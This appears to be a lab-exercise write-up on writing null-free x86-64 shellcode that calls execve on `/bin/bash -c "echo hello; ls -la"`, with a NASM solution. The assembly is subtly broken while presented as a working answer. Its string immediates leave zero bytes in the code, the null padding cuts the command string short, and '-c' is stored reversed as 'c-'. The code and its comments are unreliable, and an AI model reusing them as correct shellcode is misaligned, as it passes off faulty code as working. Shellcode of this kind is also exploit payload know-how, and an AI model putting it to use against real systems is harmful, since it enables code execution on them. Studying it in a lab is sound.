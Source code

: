 shellcode, so it can execute a more complicated shell command listed in the following. Please write your
code to achieve this. You need to show that there is no zero in your code.
`/bin/bash -c "echo hello; ls -la"`

##### solution

- code : `Shellcode/another_sh64_bash.c`
- solution :
```nasm
section .text
global _start
_start:
    ; Clear registers
    xor rdx, rdx    ; Clear rdx for null terminator
    xor rax, rax    ; Clear rax

    ; Push the command string "echo hello; ls -la" (in reverse)
    push rdx        ; Push null terminator
    mov rax, 'a'    ; Build command string piece by piece
    push rax
    mov rax, 'ls -l'
    push rax
    mov rax, 'llo; '
    push rax
    mov rax, 'ho he'
    push rax
    mov rax, 'ec'
    push rax
    mov r8, rsp     ; Save pointer to command string

    ; Push "-c" (in reverse)
    push rdx        ; Push null terminator
    mov rax, 'c-'
    push rax
    mov r9, rsp     ; Save pointer to "-c"

    ; Push "/bin/bash" (in reverse)
    push rdx        ; Push null terminator
    mov rax, 'bash'
    push rax
    mov rax, '/bin/'
    push rax
    mov r10, rsp    ; Save pointer to "/bin/bash"

    ; Set up array of pointers for execve
    push rdx        ; NULL terminator
    push r8         ; Push pointer to command string
    push r9         ; Push pointer to "-c"
    push r10        ; Push pointer to "/bin/bash"
    mov rdi, r10    ; First argument: "/bin/bash"
    mov rsi, rsp    ; Second argument: pointer to array

    ; Execute execve syscall
    push 59
    pop rax         ; syscall number for execve
    syscall
```
